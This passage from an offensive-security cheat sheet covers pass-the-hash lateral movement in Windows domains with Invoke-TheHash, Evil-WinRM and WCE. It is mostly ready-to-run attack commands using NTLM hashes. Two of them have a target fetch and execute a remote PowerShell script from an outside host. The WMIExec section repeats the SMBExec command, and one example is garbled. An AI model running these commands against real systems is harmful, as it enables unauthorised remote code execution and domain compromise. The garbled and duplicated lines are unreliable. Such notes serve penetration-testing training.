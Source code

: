 You can get the powershell scripts from here: [https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

#### Invoke-SMBExec

```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```

#### Invoke-WMIExec

```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```

#### Invoke-SMBClient

```bash
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose
```

#### Invoke-SMBEnum

```bash
Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose
```

#### Invoke-TheHash

This function is a **mix of all the others**. You can pass **several hosts**, **exclude** someones and **select** the **option** you want to use (_SMBExec, WMIExec, SMBClient, SMBEnum_). If you select **any** of **SMBExec** and **WMIExec** but you **don't** give any _**Command**_ parameter it will just **check** if you have **enough permissions**.

```
Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administ -ty    h F6F38B793DB6A94BA04A52F1D3EE92F0
```

### [Evil-WinRM Pass the Hash](../../network-services-pentesting/5985-5986-pentesting-winrm.md#using-evil-winrm)

### Windows Credentials Editor (WCE)

**Needs to be run as administrator**

This tool will do the same thing as mimikatz (modify LSASS memory).

```
wce.exe -s <username>:<domain>:<hash_lm>:<hash_nt>
```
